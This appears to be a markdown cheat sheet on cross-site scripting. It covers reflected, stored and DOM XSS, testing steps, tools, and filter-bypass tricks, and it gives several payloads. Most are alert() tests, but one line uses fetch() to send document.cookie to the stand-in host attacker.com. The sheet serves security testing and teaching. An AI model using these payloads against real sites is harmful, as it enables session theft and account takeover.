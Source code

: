 # 🛠️ XSS (Cross-Site Scripting)

## Overview
XSS vulnerabilities allow an attacker to inject and execute malicious JavaScript in a victim's browser.

## Types of XSS
1. **Reflected XSS**:
    - Injected scripts are reflected in the response.
    - Example Payload:
        ```html
        <script>alert('Reflected XSS');</script>
        ```

2. **Stored XSS**:
    - Malicious scripts are permanently stored on the server.
    - Example Scenario:
        - Inject the payload into a comment box or profile field.
        ```html
        <script>alert('Stored XSS');</script>
        ```

3. **DOM-Based XSS**:
    - Scripts are executed directly in the browser via vulnerable JavaScript code.
    - Example Payload:
        ```html
        <img src=x onerror=alert('DOM XSS')>
        ```

## Testing Steps
1. Identify input fields that reflect user data (e.g., search bars, forms).
2. Insert basic payloads like:
    ```html
    <script>alert('XSS');</script>
    ```
3. Gradually test advanced payloads (bypass filters, obfuscation):
    ```html
    <svg onload=alert('XSS')>
    ```

## Tools
- **XSStrike**:
    ```bash
    python3 xsstrike.py -u "https://example.com/page?q=test"
    ```
- **Burp Suite**:
    - Use Intruder to fuzz parameters with payloads.
- **XSS Hunter**:
    - Use to test advanced scenarios and track callbacks.

## Tips
- Test all input fields, including hidden ones.
- Bypass filters using encoding or alternate tags.
    ```html
    <scr<script>ipt>alert('Bypassed')</scr<script>ipt>
    ```

## Real-World Impact
- Steal cookies/session tokens:
    ```html
    <script>fetch('http://attacker.com/steal?c='+document.cookie)</script>
    ```
- Deface websites or phishing attacks via stored XSS.
